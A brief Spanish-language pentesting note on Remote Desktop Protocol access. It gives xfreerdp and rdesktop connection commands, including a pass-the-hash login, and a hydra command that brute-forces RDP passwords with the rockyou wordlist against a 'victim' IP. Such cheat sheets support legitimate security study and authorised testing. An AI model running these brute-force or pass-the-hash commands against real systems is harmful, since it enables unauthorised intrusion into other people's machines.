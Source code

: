 [[Apuntes]]
## Conectarnos al cliente

```
xfreerdp [/d:dominio] /u:<usuario> /p:<password> /v:<IP>
xfreerdp [/d:dominio] /u:<usuario> /pth:<hash> /v:<IP> # con hash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
```

## Fuerza bruta

```
hydra -l <usuario> -P /usr/share/wordlists/rockyou.txt rdp://<ip victima>
```